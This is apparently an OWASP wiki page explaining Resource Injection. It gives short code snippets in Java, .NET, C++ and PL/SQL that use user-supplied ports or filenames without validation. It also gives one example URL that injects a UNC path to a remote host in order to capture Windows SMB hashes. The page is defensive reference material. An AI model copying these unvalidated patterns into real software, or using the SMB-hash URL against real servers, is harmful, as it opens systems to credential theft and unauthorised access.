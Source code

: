```yaml
---

layout: col-sidebar
title: Resource Injection
author: 
contributors: 
permalink: /attacks/Resource_Injection
tag: attack, Resource Injection
auto-migrated: 1

---
```




Last revision (mm/dd/yy): **//**

## Description

This attack consists of changing resource identifiers used by an
application in order to perform a malicious task. When an application
defines a resource type or location based on user input, such as a file
name or port number, this data can be manipulated to execute or access
different resources.
The resource type affected by user input indicates the content type that
may be exposed. For example, an application that permits input of
special characters like period, slash, and backslash is risky when used
in conjunction with methods that interact with the filesystem.

The resource injection attack differs from [Path
Manipulation](Path_Manipulation "wikilink") as resource injection
focuses on accessing resources other than the local filesystem, while
[Path Manipulation](Path_Manipulation "wikilink") focuses on accessing
the local filesystem.

## Examples

### Example 1

The following examples represent an application which gets a port number
from an HTTP request and creates a socket with this port number without
any validation. A user using a proxy can modify this port and obtain a
direct connection (socket) with the server.

**Java code:**

`String rPort = request.getParameter("remotePort");`
`...`
`ServerSocket srvr = new ServerSocket(rPort);`
`Socket skt = srvr.accept(); `
`...`


**.Net code:**

`int rPort = Int32.Parse(Request.get_Item("remotePort "));`
`...`
`IPEndPoint endpoint = new IPEndPoint(address,rPort);`
`socket = new Socket(endpoint.AddressFamily, `
`SocketType.Stream, ProtocolType.Tcp);`
`socket.Connect(endpoint);`
`...`

### Example 2

This example is same as previous, but it gets port number from CGI
requests using C++:

`char* rPort = getenv("remotePort ");`
`...`
`serv_addr.sin_port = htons(atoi(rPort));`
`if (connect(sockfd,&serv_addr,sizeof(serv_addr)) < 0) `
`error("ERROR connecting");`
`...`

### Example 3

This example in PLSQL / TSQL gets a URL path from a CGI and downloads
the file contained in it. If a user modifies the path or filename, it’s
possible to download arbitrary files from server:

`...`
`filename := SUBSTR(OWA_UTIL.get_cgi_env('PATH_INFO'), 2);`
`WPG_DOCLOAD.download_file(filename); `
`...`

### Example 4

This example shows a resource injection attack focused on obtaining
Microsoft Windows SMB hashes from a remote server:

<http://www.vulnerable.com/open.aspx?filename=\\192.168.1.2\test.txt>

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:Logical Attacks](:Category:Logical_Attacks "wikilink")
  - [:Category: Information
    Disclosure](:Category:_Information_Disclosure "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Path Traversal](Path_Traversal "wikilink")
  - [Path Manipulation](Path_Manipulation "wikilink")
  - [Relative Path Traversal](Relative_Path_Traversal "wikilink")
  - [Injection Attacks](:Category:Injection_Attack "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](Controls "wikilink")

  - [:Category:Input Validation](:Category:Input_Validation "wikilink")

## References

  - <http://samate.nist.gov/SRD/view_testcase.php?tID=1734>
  - <http://cwe.mitre.org/data/definitions/99.html>
  - <https://cwe.mitre.org/data/definitions/40.html>
  - <http://capec.mitre.org/data/index.html#Definition>
  - <http://www.fortifysoftware.com/vulncat/>
  - G. Hoglund and G. McGraw. Exploiting Software. Addison-Wesley, 2004.

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[Category: Injection](Category:_Injection "wikilink") [Category:
Attack](Category:_Attack "wikilink")